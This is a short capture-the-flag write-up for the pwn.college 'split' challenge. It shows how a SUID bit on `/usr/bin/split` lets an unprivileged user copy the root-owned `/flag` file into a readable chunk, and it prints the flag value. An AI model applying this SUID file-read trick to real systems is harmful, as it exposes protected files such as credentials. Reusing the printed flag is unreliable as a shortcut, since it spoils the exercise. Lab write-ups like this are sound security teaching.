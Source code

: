 # Challenge Name: split
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/split`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/split
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/split
```

-The `s` in `-rws` indicates it's a SUID binary.
-`split` runs with **root privileges**.

## 🚀 Exploitation

The `split` command in Linux is used to divide a file into smaller chunks, either by:

- number of lines,

- byte size,

- number of pieces.

So,
```bash
split /flag
```
simply create files with 1000 lines per file, in our case it would simply just create a file containing our flag

Output:
```
ls 
xaa
cat xaa
pwn.college{ERFwaR7mfWZjdw0CB78tEoCU2sY.dhTNxwSM0IzMyEzW}
```

      
